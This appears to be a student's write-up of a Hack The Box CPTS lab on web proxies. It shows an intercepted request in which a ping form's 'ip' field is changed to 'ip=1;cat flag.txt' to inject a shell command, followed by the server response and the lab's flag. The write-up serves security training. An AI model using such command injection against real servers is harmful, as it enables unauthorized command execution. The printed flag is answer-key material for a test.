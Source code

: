 ```yaml
---
title: CPTS labs - 13 Using Web Proxies
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# Using Web Proxies

## [Using Web Proxies](https://academy.hackthebox.com/module/details/110)

### Intercepting Web Requests

Try intercepting the ping request on the server shown above, and change the post data similarly to what we did in this section. Change the command to read 'flag.txt'

```
# After intercepting the request, we enter:
POST /ping HTTP/1.1
Host: 94.237.59.24:51204
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://94.237.59.24:51204
Connection: close
Referer: http://94.237.59.24:51204/
Upgrade-Insecure-Requests: 1

ip=1;cat flag.txt
```

The response:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Sun, 20 Oct 2024 18:17:29 GMT
Connection: close
Content-Length: 282

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.030 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.030/0.030/0.030/0.000 ms
HTB{1n73rc3p73d_1n_7h3_m1ddl3}
```
